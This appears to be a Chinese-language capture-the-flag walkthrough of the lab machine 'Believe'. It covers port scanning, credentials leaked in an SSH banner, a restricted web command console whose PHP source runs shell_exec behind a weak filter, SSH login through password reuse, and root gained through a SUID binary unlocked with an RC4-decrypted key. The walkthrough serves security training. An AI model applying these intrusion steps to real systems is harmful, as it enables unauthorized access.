


| 作者    | 难度             | 平台    |
| ------- | ---------------- | ------- |
| Gropers | Easy(我放到easy) | mazesec |

## 信息收集

```sh
root@kali:~# nmap 192.168.56.119 -p-                         
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-23 05:29 -0400
Nmap scan report for 192.168.56.119
Host is up (0.00055s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
2222/tcp  open  EtherNetIP-1
54321/tcp open  unknown
MAC Address: 08:00:27:5A:ED:07 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 36.37 seconds
root@kali:~# nmap 192.168.56.119 -p22,80,2222,54321 -sC -sV
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-23 05:30 -0400
Nmap scan report for 192.168.56.119
Host is up (0.0019s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 10.3 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.67 ((Unix))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Login
|_http-server-header: Apache/2.4.67 (Unix)
2222/tcp  open  ssh     OpenSSH 10.3 (protocol 2.0)
54321/tcp open  ssh     OpenSSH 10.3 (protocol 2.0)
MAC Address: 08:00:27:5A:ED:07 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.40 seconds
```

当时我并没有扫描全部的接口，只扫到了`22/tcp 2222/tcp`，并没有扫到`54321/tcp`。

```sh
root@kali:~# dirsearch -u "http://192.168.56.119/"
[05:33:19] 200 -  820B  - /cgi-bin/printenv
[05:33:19] 200 -    1KB - /cgi-bin/test-cgi
[05:33:23] 302 -    0B  - /dashboard.php  ->  index.php
```

`index.php`为登录界面，访问`/dashboard.php`会跳转到`index.php`，猜测如果密码正确会跳转到`/dashboard.php`。

尝试爆破`admin`密码，`5000.txt 10000.txt 20000.txt`都尝试了，并没有起色。

突破口转向`ssh 服务的端口`：

```sh
root@kali:~# ssh root@192.168.56.119 -p 22        
==================================================
                    admin
                yubao9694482664
==================================================
root@192.168.56.119's password: 
```

ll104567当时出题`HGBE`，ssh服务就隐藏了一些信息，我这里尝试，确实发现了一些信息。

```http
POST / HTTP/1.1
Host: 192.168.56.119
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Idempotency-Key: "818074399399579628"
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Sec-GPC: 1
Origin: http://192.168.56.119
Cookie: PHPSESSID=ue8uah7leo1tcimbmrc352atj9
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.119/
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Priority: u=0, i
Content-Length: 25

u=admin&p=yubao9694482664
```

这里要登录三次才能进入`dashboard.php`页面。



看起来可以进行命令执行，经过多次尝试，发现其只能执行`cat 或 ls`命令，用`cat`读取`/etc/passwd`，没有返回内容，读取`yu.txt`有返回内容，到此我还不能确定过滤规则，我把`url和phpsessid`发给`ai`，`ai`用`cat`读取了`/etc/banner.txt`，我就猜测可能要有`.txt`后缀才能读取到。



`cat dashboard.php.txt`查看源码：

```php+HTML
<?php
error_reporting(0);
session_start();
if (isset($_POST['logout'])) {
    session_destroy();
    header('Location: index.php');
    exit;
}
if (!isset($_SESSION['auth']) || $_SESSION['auth'] !== true) {
    header('Location: index.php');
    exit;
}
$r = '';
if (isset($_POST['cmd'])) {
    $c = trim($_POST['cmd']);
    if (preg_match('/^ls(\s+.*)?$/', $c) || preg_match('/^cat\s+.*\.txt$/', $c)) {
        if (!preg_match('/[;|&$><`\n]/', $c)) {
            $r = shell_exec($c);
        }
    }
}
?>
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>Dashboard</title>
<style>
body { background: #1e1e1e; color: #00ff00; font-family: monospace; padding: 20px; }
.top-bar { display: flex; justify-content: space-between; align-items: center; margin-bottom: 20px; border-bottom: 1px solid #333; padding-bottom: 10px; }
input[type="text"] { background: #000; color: #00ff00; border: 1px solid #00ff00; padding: 5px; width: 300px; }
input[type="submit"] { background: #00ff00; color: #000; border: none; padding: 6px 15px; cursor: pointer; }
.logout-btn { background: #ff0000; color: #fff; border: none; padding: 6px 15px; cursor: pointer; }
pre { background: #000; padding: 15px; border: 1px solid #333; min-height: 50px; }
</style>
</head>
<body>
<div class="top-bar">
    <span>System Console</span>
    <form method="POST" style="margin: 0;">
        <input type="submit" name="logout" value="Logout" class="logout-btn">
    </form>
</div>
<form method="POST">
<span class="prompt">yu@Believe:~$</span>
<input type="text" name="cmd" autofocus autocomplete="off">
<input type="submit" value="Exec">
</form>
<br>
<pre><?php echo htmlspecialchars($r, ENT_QUOTES, 'UTF-8'); ?></pre>
</body>
</html>
```

从源码看，只能进行文件读取。

查看/etc/ssh/sshd_config:

```sh
Match LocalPort 22
    DenyUsers yu
    Banner /etc/ssh_banner  # 原来这就是提示信息呀

Match LocalPort 2222
    DenyUsers yu # 禁止 yu 登录
```

从这里可以看出，并不允许 `yu` 用户在 `22 2222`端口登录，所以只能通过`54321`端口登录，`yu.txt` 也进行了提示。

ssh 登录，爆破了 `5000.txt 10000.txt`，并没有爆破到，最后想到密码复用`yubao9694482664`。

## SSH凭据登录 获取立足点

```sh
root@kali:~# ssh yu@192.168.56.119 -p54321
yu@192.168.56.119's password: 
              _                          
__      _____| | ___ ___  _ __ ___   ___ 
\ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \
 \ V  V /  __/ | (_| (_) | | | | | |  __/
  \_/\_/ \___|_|\___\___/|_| |_| |_|\___|

yu@Believe:~$ id
uid=1000(yu) gid=1000(yu) groups=1000(yu)
```

## 系统内部信息收集

```sh
yu@Believe:~$ ls -al
total 896
drwx------    2 yu       yu            4096 May 14 15:16 .
drwxr-xr-x    3 root     root          4096 May 12 22:10 ..
----------    1 root     root        900520 May 14 11:45 be
-rw-r--r--    1 yu       yu              91 May 14 14:58 hint.txt
-rw-r--r--    1 yu       yu              22 May 14 01:13 user.txt
yu@Believe:~$ cat hint.txt
The walls have ears, and the logs have a heartbeat.
it keeps whispering the truth. Just...
```

`ai` 翻译 : 

```
隔墙有耳，而日志像有生命一样在跳动。
它一直在悄悄吐露真相，只是……
```

```sh
yu@Believe:~$ ls -al /var/log
total 388
drwxr-xr-x    4 root     root          4096 May 23 09:59 .
drwxr-xr-x   13 root     root          4096 May  8 10:51 ..
drwx--x--x    2 yu       yu            4096 May 14 14:50 .hidden
-rw-r-----    1 root     wheel          126 May 23 14:10 acpid.log
drwxr-s---    2 apache   apache        4096 Feb 25 19:46 apache2
-rw-r--r--    1 root     root          2103 May 12 21:07 apk.log
-rw-r--r--    1 root     root             0 May  8 10:56 auth.log
-rw-r--r--    1 root     root             0 May  8 10:56 btmp
-rw-r--r--    1 root     root             0 May  8 10:56 cron.log
-rw-r-----    1 root     root         29653 May 23 16:07 dmesg
-rw-r--r--    1 root     root             0 May  8 10:56 faillog
-rw-r--r--    1 root     root             0 May  8 10:56 lastlog
-rw-r-----    1 root     wheel       127116 May 23 18:33 messages
-rw-r-----    1 root     wheel       204870 May 23 09:59 messages.0
-rw-r--r--    1 root     root             0 Apr 25 18:31 secure
-rw-r--r--    1 root     root             0 Apr 25 18:31 syslog
-rw-rw-r--    1 root     utmp             0 May  8 10:56 wtmp
```

可以看到`.hidden`。

```sh
yu@Believe:~$ cd /var/log/.hidden
yu@Believe:/var/log/.hidden$ ls -al
total 8
drwx--x--x    2 yu       yu            4096 May 14 14:50 .
drwxr-xr-x    4 root     root          4096 May 23 09:59 ..
pr--------    1 yu       yu               0 May 23 18:38 .ghost_radio
# p 命名管道（FIFO / named pipe）, 命名管道通常不会保存静态内容，而是等另一端进程持续往里写。
yu@Believe:/var/log/.hidden$ cat .ghost_radio 
i>b
i>grep
i>e
i>grep
i>l
i>grep
i>i
i>grep
i>e
i>grep
i>v
i>grep
i>e
i>grep
i>b
i>grep
i>e
i>grep
i>l
i>grep
i>i
i>grep
i>e
i>grep
i>v
i>grep
i>e
i>grep
i>b
i>grep
i>e
i>grep
i>l
i>grep
i>i
i>grep
i>e
i>grep
i>v
i>grep
i>e
i>grep
i>b
i>grep
i>e
i>grep
i>l
i>grep
i>i
i>grep
i>e
i>grep
# 观察规则
i>b
i>grep
i>e
i>grep
i>l
i>grep
i>i
i>grep
i>e
i>grep
i>v
i>grep
i>e
i>grep
# 这是一个循环
i>单个字符
i>grep
# 把单个字符组合起来
b e l i e v e
```

当然这里也可以使用 `ps auxww`（`LNNN` 学习到的），查看到底是哪个命令再给 `.ghost_radio` 文件写入内容。

```
yu@Believe:/var/log/.hidden$ sudo -l
Matching Defaults entries for yu on Believe:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for yu:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User yu may run the following commands on Believe:
    (root) NOPASSWD: /root/be
yu@Believe:~$ sudo /root/be
验证密钥（*******）: 
```

这里要输入密钥，密钥就是`believe`。

```sh
yu@Believe:~$ sudo /root/be
验证密钥（*******）: believe
密钥正确
yu@Believe:~$ ls -al
total 896
drwx------    2 yu       yu            4096 May 14 15:16 .
drwxr-xr-x    3 root     root          4096 May 12 22:10 ..
-rwsr-xr-x    1 root     root        900520 May 14 11:45 be
-rw-r--r--    1 yu       yu              91 May 14 14:58 hint.txt
-rw-r--r--    1 yu       yu              22 May 14 01:13 user.txt
```

可以看到 `be` 从 `----------` 变为 `-rwsr-xr-x`，它具有了`suid`位，可以提权。

## 权限提升

可以说我对于逆向分析，屁都不懂，这一步是`ai`梭哈出来的，贴个脚本吧：

```python
def rc4(key: bytes, data: bytes) -> bytes:
    s = list(range(256))
    j = 0

    for i in range(256):
        j = (j + s[i] + key[i % len(key)]) & 0xff
        s[i], s[j] = s[j], s[i]

    i = 0
    j = 0
    out = bytearray()

    for b in data:
        i = (i + 1) & 0xff
        j = (j + s[i]) & 0xff
        s[i], s[j] = s[j], s[i]
        k = s[(s[i] + s[j]) & 0xff]
        out.append(b ^ k)

    return bytes(out)


# 程序里写死的目标密文
target = bytes.fromhex(
    "24 53 27 50 78 4B 9D AB AB 7E F0 A1 49 F2 EA 7E EC 6C 82 77"
)

# 实际解题时验证可用的 key
key = b"believe"

plaintext = rc4(key, target)
print("key =", key.decode())
print("plaintext =", plaintext.decode())

# 输出：
key = believe
plaintext = Believe_in_yourself!
```

权限提升：

```
yu@Believe:~$ ./be
请输入系统密钥: Believe_in_yourself!
验证成功。
[+] 正在请求 Believe 核心权限...
Believe:/home/yu# id
uid=0(root) gid=0(root) groups=1000(yu)
Believe:/home/yu# 
```
